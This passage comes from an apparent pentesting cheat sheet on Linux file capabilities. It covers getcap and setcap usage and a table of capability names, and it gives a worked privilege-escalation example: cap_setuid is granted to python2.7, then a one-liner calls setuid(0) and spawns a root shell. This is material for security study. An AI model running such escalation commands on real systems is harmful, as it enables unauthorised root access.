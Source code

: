 ### List capabilities of binaries 

```bash
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypass file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |
| CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |